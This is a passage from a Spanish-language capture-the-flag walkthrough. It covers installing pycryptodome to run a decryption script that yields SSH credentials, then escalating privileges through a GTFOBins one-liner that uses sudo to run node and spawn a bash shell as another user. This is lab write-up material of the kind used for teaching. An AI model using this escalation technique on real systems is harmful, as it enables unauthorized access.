 ```python
    print(f"Error al desencriptar los datos: {e}")
```
y ejecuto el script, si llega dar error (que me dio error) se debe instalar la biblioteca `pycryptodome` y si estas haciendo uso de kali, tendras que hacer
la instalacion desde un entorno virtual

```bash
source /home/darks/Desktop/myenv/bin/activate # activando mi entorno virtual
```

```bash
pip install pycryptodome # instalacion de la biblioteca
```

```bash
pip list |grep pycryptodome # validando que este instalado
```

```bash
python3 decript.py # ejecutando el script para desencriptar!
```

```bash
deactivate # salgo del entorno virtual
```


![image](https://github.com/user-attachments/assets/5dd21b8b-e057-4c9c-9906-36a819a2399e)


logre desencriptar la informacion, estaba casi seguro que eran los datos correctos porque despues de examinar durante mucho tiempo el codigo decompilado
no pude dar con mas informacion, asi que he conseguido credenciales ssh

![image](https://github.com/user-attachments/assets/6e3acf4e-3cf7-497b-bc23-55f8bda5973c)


## Escalada de privilegios

### bob

```ruby
sudo -l
```

![image](https://github.com/user-attachments/assets/d4afc295-495b-410f-b5ff-a0a51912be95)

veo que puedo ejecutar `node` como el user `calamardo` asi que si busco el binario en `GTFOBINS` veo como puedo hacer la escalada

![image](https://github.com/user-attachments/assets/44544116-85ce-4b46-94f6-10f29434274e)

```ruby
sudo -u calamardo /bin/node -e 'require("child_process").spawn("/bin/bash", {stdio: [0, 1, 2]})'
```

![image](https://github.com/user-attachments/assets/bf15ea8d-24bc-46ba-97c1-2acc679e2748)
